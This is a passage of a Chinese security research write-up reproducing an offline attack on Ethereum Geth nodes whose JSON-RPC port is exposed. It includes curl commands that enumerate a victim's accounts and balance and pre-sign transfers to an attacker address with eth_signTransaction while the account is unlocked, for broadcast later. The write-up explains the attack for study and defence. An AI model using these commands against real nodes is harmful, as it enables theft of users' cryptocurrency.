 personal_sendTransaction 接口是 Geth 官方在 2018/01 新增了一个解决偷渡漏洞的RPC接口。使用该接口转账，解密出的私钥将会存放在内存中，所以不会引起 偷渡漏洞 相关的问题。攻击者与时俱进的攻击方式不免让我们惊叹。

### 3.4 自动签名交易的离线攻击

> 对于曾经被盗币的节点，可能会被离线漏洞所攻击。这取决于被盗币时攻击者生成了多个交易签名。

#### 3.4.1 攻击流程复现

由于该攻击涉及到的 eth_signTransaction 接口在 pyweb3 中不存在，故攻击流程复现使用 curl 命令与 JSON-RPC 交互

攻击者IP为：10.0.0.3，账户地址为：0xd4f0ad3896f78e133f7841c3a6de11be0427ed89，geth 的启动命令为： geth –testnet –rpc –rpcaddr 0.0.0.0 –rpcapi eth,net,personal

被攻击者IP为： 10.0.0.4，geth 版本为 1.8.11 （当前最新版本为 1.8.12），账户地址为 0x9e92e615a925fd77522c84b15ea0e8d2720d3234

1.攻击者扫描到被攻击者开放了 8545 端口后，可以通过多个接口获取被攻击者信息

```
curl -XPOST --data '`{`"jsonrpc":"2.0","method":"eth_accounts","params":[],"id":1`}`' --header "Content-Type: application/json" http://10.0.0.4:8545
curl -XPOST --data '`{`"jsonrpc":"2.0","method":"eth_getBalance","params":["0x9e92e615a925fd77522c84b15ea0e8d2720d3234","latest"],"id":1`}`' --header "Content-Type: application/json" http://10.0.0.4:8545
curl -XPOST --data '`{`"jsonrpc":"2.0","method":"eth_blockNumber","params":null,"id":1`}`' --header "Content-Type: application/json" http://10.0.0.4:8545
curl -XPOST --data '`{`"jsonrpc":"2.0","method":"net_version","params":null,"id":1`}`' --header "Content-Type: application/json" http://10.0.0.4:8545
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/08/5a5cb591-7a05-4a69-a81a-bcb951434616.png-w331s)

账户里余额为0，是因为笔者没有及时同步区块。实际余额是 0.98 ether

2.通过 eth_getTransactionCount 接口获取节点账户和盗币账户之间的转账次数，用于计算 nonce。等待用户通过 personal.unlockAccount() 解锁。在用户解锁账户的情况下，通过 eth_signTransaction接口持续发送多笔签名转账请求。例如：签名的转账金额是 2 ether，发送的数据包如下：

```
curl -XPOST --data '`{`"jsonrpc":"2.0","method":"eth_signTransaction","params":[`{`"from":"0x9e92e615a925fd77522c84b15ea0e8d2720d3234","to":"0xd4f0ad3896f78e133f7841c3a6de11be0427ed89","value": "0x1bc16d674ec80000", "gas": "0x30d40", "gasPrice": "0x2dc6c0","nonce":"0x1"`}`],"id":1`}`' --header "Content-Type: application/json" http://10.0.0.4:8545 
注： 该接口在官方文档中没有被介绍，但在新版本的geth中的确存在
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/08/6b8faade-8bd5-4b8d-9bb9-56812a62a3bc.png-w331s)攻击者会在账户解锁期间按照 nonce 递增的顺序构造多笔转账的签名。

3.至此，攻击者的攻击已经完成了一半。无论被攻击者是否关闭 RPC 接口，攻击者都已经拥有了转移走用户账户里 2 ether 的能力。攻击者只需监控用户账户中的余额是否超过 2 ether 即可。如图所示，在转入 1.2 ether 后，用户的账户余额已经达到 2 ether

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/08/e263fc1b-b503-49e1-9f05-cd645da0e496.png-w331s)攻击者在自己的节点对已经签名的交易进行广播：

